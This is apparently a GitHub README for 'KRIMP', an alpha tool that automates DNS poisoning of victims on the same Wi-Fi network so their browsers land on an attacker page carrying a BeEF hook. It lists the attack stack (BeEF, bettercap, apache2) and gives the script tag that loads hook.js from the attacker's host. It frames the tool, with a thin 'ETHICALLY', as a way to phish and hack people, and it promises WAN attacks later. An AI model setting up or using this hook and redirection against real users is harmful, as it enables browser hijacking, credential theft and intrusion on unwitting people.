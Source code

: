 # KRIMP
```
                               ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                               ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                               ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                              ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                             ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                               ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                               ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                               ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                               ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered, this tool automates the process of DNS poisoning a target on your wifi to make them redirect to your page which is inected with beEf.
*This is in an alpha stage, more automation will come*

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

